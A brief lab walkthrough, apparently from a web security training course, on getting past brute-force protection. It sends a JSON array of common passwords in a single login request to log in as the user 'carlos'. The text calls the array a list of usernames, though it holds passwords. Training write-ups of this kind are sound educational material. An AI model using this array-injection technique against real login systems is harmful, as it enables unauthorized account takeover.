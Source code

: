 # Lab: Broken brute-force protection, multiple credentials per request

Navigate to the login page and intercept the login request.

Notice that the data passed in the request is an array.

Replace the password field with the list of usernames:
```
"username": "carlos",
"password" : [
    "123456",
    "password",
    "qwerty"
    ...
]
```

Send the request to login successfully as carlos.